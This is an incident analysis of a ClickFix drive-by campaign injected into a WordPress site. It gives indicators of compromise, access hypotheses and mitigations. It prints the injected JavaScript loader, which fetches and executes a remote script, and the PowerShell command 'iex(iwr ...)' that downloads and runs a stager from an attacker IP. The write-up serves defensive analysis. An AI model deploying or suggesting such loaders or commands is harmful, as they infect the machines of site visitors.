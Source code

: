 ## breakersfwb.com Drive-By Target Analysis
*7 Sept 2025, K.Tonkin & R. Halim*

This document outlines a more detailed analysis into the JavaScript injection shown on `https://www.breakersfwb.com`.

> **WARNING!** Do not directly interact with any IOCs, code samples, or malicious payloads outside of a controlled and
> isolated environment.


## Relevant Indicators of Compromise (IOCs)

| Type   | Indicator                                                        |  Description                          |
|--------|------------------------------------------------------------------|---------------------------------------|
| Domain | `getfix[.]win`                                                   | Primary ClickFix payload delivery     |
| Domain | `ncloud[.]icu`                                                   | Fake Cloudflare overlay iframe source |
| Domain | `2no.co`                                                         | Intermediate redirector               |
| IP     | `155[.]94.155.25`                                                | PowerShell stager host                |
| URL    | `https://getfix[.]win/jsrepo?rnd=<random_number>&ts=<timestamp>` | Dynamic script loader                 |
| URL    | `https://ncloud.icu/?ref=<target_domain>`                        | Overlay splash page                   |


## Analysis

The injected JavaScript on https://www.breakersfwb.com is a textbook example of the ClickFix technique: a social engineering method that exploits users’ impulse to “fix” perceived issues. This campaign weaponized trust in the Breakers website to deliver malware via a deceptive overlay.

Each page on the site was modified to include a <script> block containing an Immediately Invoked Function Expression (IIFE). This function dynamically loads a second-stage script from getfix.win, using randomized query parameters to evade caching and track victim engagement.  

Below are the contents of the JavaScript block, which shows the next sequence to load malicious JavaScript into the browser.

```html
<script>
(function() {
    if (document.readyState !== 'loading') {
        loadScript();
    } else {
        document.addEventListener('DOMContentLoaded', loadScript, {once: true});
    }

    function loadScript() {
        var url = 'https://getfix.win/jsrepo?rnd=' + Math.random() + '&ts=' + Date.now();
        
        fetch(url, {
            method: 'GET',
            cache: 'no-store',
            credentials: 'same-origin'
        })
        .then(response => {
            if (!response.ok) throw new Error('HTTP ' + response.status);
            return response.text();
        })
        .then(data => {
            var script = document.createElement('script');
            script.textContent = data.trim();
            document.head.appendChild(script);
            
            if (document.readyState === 'complete' || document.readyState === 'interactive') {
                document.dispatchEvent(new Event('DOMContentLoaded'));
            }
        })
        .catch(error => {
            console.warn('Script load failed:', error.message);
        });
    }
})();
</script>
```

The script fetches obfuscated JavaScript, but only if the User-Agent string indicates a Windows OS; an intentional filter to target systems vulnerable to PowerShell exploitation. The `loadScript()` function creates a fetch request to `https://getfix[.]win/jsrepo`, which injects parameters using `Math.random()`. This selective targeting is a hallmark of ClickFix: it avoids detection by automated scanners and focuses on real users who are likely to follow instructions.

However, this domain only selectively returns JavaScript code, based on the User-Agent string sent to the URL. Namely,
JavaScript is only returned when the User-Agent indicates the OS is running Windows, which can be tested by utilizing
Chrome DevTools and Network Conditions to change the user agent.

![Figure 1. User agent using the "Chrome - Mac" profile](./artifacts/screenshots/breakers-driveby-1.png)
*Figure 1. User agent using the "Chrome - Mac" profile*

![Figure 2. User agent using the "Chrome - Windows" profile. Note the presence of obfuscated JavaScript.](./artifacts/screenshots/breakers-driveby-2.png)
*Figure 2. User agent using the "Chrome - Windows" profile. Note the presence of obfuscated JavaScript.*

It is worth noting that the payload this returns is dynamic and seems to be actively updated over time.

This obfuscated JavaScript is then injected into another `<script>` tag in the DOM; this is, at this point, all done
client side and not from the WordPress template PHP injecting more code. This code is heavily obfuscated, but the
[Obfuscator.io Deobfuscator tool](https://obf-io.deobfuscate.io/) available online is able to deobfuscate most of the
code, a full copy of which can be found in [artifacts/scripts/getwin-js-deobfuscate.js.bak](./artifacts/scripts/getwin-js-deobfuscate.js.bak).

![Figure 3. Deobfuscator Tool](./artifacts/screenshots/breakers-driveby-3.png)
*Figure 3. Deobfuscator Tool*

Once the obfuscated script is injected, it creates an <iframe> pointing to ncloud.icu, passing the current domain (breakersfwb.com) as a referrer. This iframe overlays a fake Cloudflare “verification” page—visually convincing and designed to appear legitimate. The browser URL remains unchanged, preserving trust, and the overlay includes the victim’s domain to reinforce authenticity. This is a core ClickFix tactic: simulate a familiar security prompt, then guide the user into executing a malicious command.

![Figure 4. Fake Cloudflare Verification. Note the inclusion of "www.breakersfwb.com"](./artifacts/screenshots/breakers-driveby-4.png)
*Figure 4. Fake Cloudflare Verification. Note the inclusion of "www.breakersfwb.com"*

From here, the victim is asked to click the fake Turnstile checkbox, which then copies a malicious PowerShell command
which the victim would then run in the Windows Run dialog, which will download and execute another stager that runs on
the victim's local machine.

```ps
# this PowerShell command gets copied to the clipboard upon checking the fake verification box.
powershell -w h -nop -c iex(iwr -Uri 155.94.155[.]25 -UseBasicParsing)
```

Based on a quick analysis of the ran PowerShell command, it pulls another PowerShell script which is executed, which
downloads shellcode that is executed on the victim machine. Further analysis can be started from the *References* section.


## Initial Access Hypotheses

While we were able to analyze what happens between the injected JavaScript being loaded into the webpage to victim
machine execution, the question stands... how did the initial `<script>` tag end up in the first place?

Three possible hypotheses arise, each based on my personal experience with WordPress site administration.

1. A WordPress plugin installed on the site was compromised
2. The current WordPress theme was compromised, and custom code was added
3. A user that has access to this site's WordPress admin was compromised, and threat actors used this user to add code

### Hypothesis 1: WordPress Plugin

A [WordPress plugin](https://developer.wordpress.org/plugins/intro/what-is-a-plugin/) extends the base functionality of
a standard WordPress install with new functions. Normally, for website admins, this may range from custom components,
such as a contact form, to optimizing how WordPress processes different information. What is important is that these
plugins are often developed by third parties (e.g. *not* developed by the developers of WordPress themselves), and so
may not have the same coding standards as WordPress.

This, combined with potentially outdated PHP versions or exploits against WordPress itself, opens up attack vectors for
attackers to compromise a WordPress site. For example, an outdated plugin installed on the Breakers may have been exploited
to either give attackers access to the backend, or allow for what is called a stored [Self-XSS](https://en.wikipedia.org/wiki/Self-XSS)
attack, where the JavaScript code is stored, rendered in the HTML that is sent to the client, and when the browser reads
the HTML, executes the JavaScript code.

To further prove or disprove this hypothesis, one would likely need to know the versions of the plugins running on this
WordPress instance, and compare it to published CVEs against these plugins. For custom developed plugins, code review
would need to be accomplished to ensure that code follows best security practices.

To mitigate future kinds of attacks, recommendations would include installing a WordPress security plugin, installing
an antimalware scanner on the hosting infrastructure, and ensuring that plugins are kept up-to-date.


### Hypothesis 2: WordPress Theme

A [WordPress theme](https://developer.wordpress.org/themes/getting-started/what-is-a-theme/) allows the owner of a WordPress
website to customize the design of their website. In essence, it controls the styles and layout of a website, which can
also include adding additional HTML.

Based on some earlier analysi, this WordPress site is using a custom theme, which isn't uncommon. What
may have happened is that the theme was updated to include the malicious `<script>` tag in every page, which often results
from a change in the theme's `theme.php` file to do so. This would be in conjunction with either the first hypothesis
(in which an attacker would need to exploit a plugin to gain access to the backend), or with the third hypothesis (in
which an attacker would need to gain access to a user's login credentials).

To further prove or disprove this hypothesis, one would need to look at the currently installed theme's files and ensure
that there is no malicious code added to the theme files.


### Hypothesis 3: User Brute-Forcing

WordPress allows for multiple users to administer the website. While there are many ways for an instance to disclose
which users are registered on the site, one way that was found was through the `/wp-json` endpoint. This endpoint was
introduced as part of the introduction of the Block Editor, the new implementation of the default WordPress editor. This
allows both built-in blocks and blocks provided by plugins to interact with WordPress' backend using a [JSON REST API](https://developer.wordpress.org/rest-api/).

By navigating to `https://www.breakersfwb.com/wp-json/wp/v2/users`, anyone can, without logging in, see the registered
users of this WordPress site. This is critical because it provides OSINT information about the users that may manage
this website, and their associated user IDs. This makes it easier to conduct blatant username/password guessing (more
likely than not, WordPress usernames are the same as their slugs as disclosed by this endpoint), or could be used in
combination with other OSINT techniques to conduct a phishing campaign (for example, you could paste the name provided
in this API to, say, Facebook or Linkedin).

There isn't a default, built-in way to disable this endpoint [as it is by design](https://www.reddit.com/r/ProWordPress/comments/1clp2dm/comment/l2v1nu2),
especially since there are other methods to disclose usernames of this WordPress site. However, there are ways to extend the functionality of WordPress to disable this specific endpoint. Another recommendation would be to change passwords of all users on the Breakers website, and install a plugin
that augments the login features of WordPress to prevent brute forcing of login pages among other features. For example,
the popular plugin (All-In-One Security)[https://wordpress.com/plugins/all-in-one-wp-security-and-firewall] bundles
multiple security features into one plugin at the application layer.


## References

- [tria.ge Public Analysis Report](https://tria.ge/250908-c4qkga1xhx/behavioral1)
- [tria.ge Sandbox Report](./artifacts/ncloud[.]icu-sandbox-report.pdf)
- [tria.ge pcap](./artifacts/ncloud[.]icu-sandbox-capture.pcapng)
